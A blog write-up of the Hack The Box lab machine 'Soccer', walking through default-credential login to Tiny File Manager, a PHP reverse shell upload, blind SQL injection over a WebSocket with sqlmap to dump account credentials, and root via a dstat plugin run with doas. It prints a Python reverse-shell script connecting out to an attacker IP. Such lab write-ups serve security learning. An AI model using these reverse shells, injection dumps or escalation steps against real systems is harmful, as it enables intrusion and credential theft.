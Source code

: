 ```yaml
---
layout: post
title:  "Hackthebox - Soccer writeup"
date:   2023-05-17 19:00:00 +0300
categories: HTB write-up
description: "Hackthebox - HTB Soccer writeup - how to solve this box"
---
```


This has been a fun box. It is ranked as easy, but I would argue it is more difficult than that. Pawning the user takes some time and thought.


## Initial foothold

As always, let's start with a port scan.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-nmap-soccer.png "HTB soccer nmap scan")

<br>

The only interesting finding for now is the http service on port 80, which is a simple static html page under the soccer.htb domain. Nothing much we can do about it. Let's brute force soccer.htb with gobuster.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/gobuster-soccer-htb.png "HTB soccer gobuster")

<br>

We find only one subdirectory /tiny. It turns out to be a very simple php file management system. By vising the official Tiny file manager page on Github I can see a list of default passwords for admin and user. And of course they work...

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-tinyfilemanager.png "HTB soccer tinyfilemanager")

<br>


When logging in as admin I can browse the webpage directory and I can see an upload function as well (not visible in the image below).

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-admin-tinyfilemanager.png "HTB soccer admin tinyfilemanager")

<br>

I uploaded the php-reverse-shell.php script that can be found under /usr/share/webshells/php in kali linux. I set my IP adress and a preferable port number and uploaded the script. Before visiting the link where the script resides I start netcat locally on my machine.

```
nc -lvp 4444
```

When visiting the php link from my browser I get a shell as www-data on my kali machine. The next step is to get a user.

<br>

## User flag

At this point I was using grep and find to check in interesting files and folders and see what services are being run on the machine. I particularly searched for references of "player" as that is the name of the user according the folder found under /home. What caught my eye is the following:

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-1.png "HTB soccer user flag")

<br>

It clearly looks like another subdomain that I can access. I had to add the same configuration in my /etc/hosts file to be able to access the soc-player.soccer.htb subdomain.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-2.png "HTB soccer user flag subdomain")

<br>

I checked around and tried sql injection on the forms, but I didn't find anything interesting. When registering a user I see that under Tickets there is another form that I can use to interact with the server.

I routed traffic through Burp and I see that it is essentially a web socket connection being utilized to check validity of tickets.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-3.png "HTB soccer Websocket protocol switch")

<br>


<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-4.png "HTB soccer Websocket protocol burp")

<br>

At this point the websocket connection seemed the only alternative I had to move forward with this machine. I simply googled for websocket exploits as I didn't have much experience with websockets.

Eventually I found that sql injections could be suitable for my scenario and also I ended up reading this blog post: [Automating Blind SQL injection over WebSocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html?ref=appsecguy.se)

I followed the instructions as detailed in that blog post to run sqlmap over a websocket connection. All you need to do is use:

```
ws_server = "ws://soc-player.soccer.htb:9091"
```

and set

```
data = '{"id":"%s"}' % message
```

You then run the python script on your kali machine and execute sqlmap from another shell as follows:

```
sqlmap -u "http://localhost:8081/?id=1" -p “id”
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-sqlmap.png "HTB soccer SQLMap")

<br>

Bingo, I found an sql injection vulnerability.

Eventually I found myself running a few extra sqlmap commands to get a dump of the database table holding the passwords.

```
sqlmap -u "http://localhost:8081/?id=1" -p "id" --dump -D soccer_db -T accounts
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-sqlmap-2.png "HTB soccer SQLMap credentials dumping")

<br>

Let's try to login as the user "player" using ssh.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-ssh-login.png "HTB soccer SSH login")

<br>

## Root flag

I download and run [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS?ref=appsecguy.se) to find privilege escalation paths.

I see dstat under group writable files and my user having executable rights for doas, which is a sudo alternative. My current user did not have sudo rights unfortunately.

dstat can run python plugins that found in specific directories, as per this [post](https://gtfobins.github.io/gtfobins/dstat/?ref=appsecguy.se).

If I place a python reverse shell from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?ref=appsecguy.se#python) in /usr/local/share/dstat and then execute that  python script with dstat, by calling dstat using doas, I should get an elevated shell back at my attacker machine.

I saved the following python script as dstat-plugin in /usr/local/share/dstat.

```
import socket,os,pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.10.14.27",4444));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

pty.spawn("/bin/sh")
```

I started a listener on my Kali machine.

```
nc -lvp 4444
```

Finally, I executed the python script with:

```
doas -u root /usr/bin/dstat  --plugin
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-root-flag.png "HTB soccer root flag")

<br>